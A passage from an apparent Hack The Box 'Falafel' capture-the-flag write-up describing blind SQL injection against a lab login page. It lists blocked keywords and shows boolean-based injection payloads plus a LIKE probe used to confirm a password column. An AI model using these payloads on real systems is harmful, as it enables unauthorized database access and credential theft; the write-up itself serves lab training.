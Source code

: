 ![Screenshot](/assets/img/htb-falafel-writeup-screenshot/image_4.png)

So based on these observation, some assumptions were made:
- Blind SQL injection seems to be possible
- Some level of SQLi prevention is present

The first step is to figure out if there are any other SQL-related keywords that are blacklisted. These are the ones discovered:
```
sleep
union
benchmark
```

Since we've got 2 seemingly valid usernames, the following boolean-based injection payload seems to work well for identifying if the query is successful or not.
```
chris' AND 1=1;-- - # Returns "Wrong Identification"
chris' AND 1=0;-- - # Returns "Try again..."
```

However, I was a bit stuck here as I have no idea about the table structure or even the table name. Just by guessing, I assumed that there should be column named "password" and created tried the following payload.
```
chris' AND password LIKE '%';-- -
```

The query returns a positive result ("Wrong Identification), which confirms that there is a column named "password".